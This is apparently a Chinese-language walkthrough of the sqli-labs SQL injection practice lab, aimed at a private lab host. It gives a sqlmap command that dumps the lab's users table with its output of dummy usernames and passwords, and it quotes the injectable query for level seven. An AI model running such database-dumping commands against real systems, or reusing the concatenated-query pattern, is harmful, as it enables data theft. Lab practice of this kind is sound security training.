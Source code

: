 - ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security -T users -C username,password``导出数据库

```cmd
SELECT username, password FROM security.users [13]:
[*] Dumb, Dumb
[*] Angelina, I-kill-you
[*] Dummy, p@ssword
[*] secure, crappy
[*] stupid, stupidity
[*] superman, genious
[*] batman, mob!le
[*] admin, admin
[*] admin1, admin1
[*] admin2, admin2
[*] admin3, admin3
[*] dhakkan, dumbo
[*] admin4, admin4
```

# 靶场第七关

- ``$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";``--->对我来说难度挺大的,我们先拿着sql语句分析,好吧暂时分析不出什么

- http://192.168.77.131/master/Less-7/?id=14
- http://192.168.77.131/master/Less-7/?id=15

![image-20240819202302490](./assets/image-20240819202302490.png)

![image-20240819202322973](./assets/image-20240819202322973.png)
